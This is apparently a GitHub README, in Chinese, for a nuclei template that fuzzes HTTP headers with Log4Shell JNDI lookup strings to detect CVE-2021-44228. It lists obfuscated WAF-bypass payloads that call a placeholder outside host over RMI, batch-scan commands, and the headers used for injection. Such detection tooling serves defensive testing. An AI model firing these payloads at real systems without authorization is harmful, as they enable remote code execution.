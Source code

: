 # log4j-fuzz-head-poc
针对 log4j来批量fuzzz 请求头检测，有效检测一些头部存在的安全风险，nuclei默认使用interactsh的dnslog

### v2版本
添加了绕过rc1的poc
也同时能绕过常见主流waf拦截，还有高版本jdk绕过
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 10 单个检测  速率为10（速率不要太高）

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 10   批量检测  速率为10（速率不要太高）
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

* X-Client-IP
* X-Remote-IP
* X-Remote-Addr
* X-Forwarded-For
* X-Originating-IP
* User-Agent
* Referer
* CF-Connecting_IP
* True-Client-IP
* X-Forwarded-For
* Originating-IP
* X-Real-IP
* X-Client-IP
* Forwarded
* Client-IP
* Contact
* X-Wap-Profile
* X-Api-Version
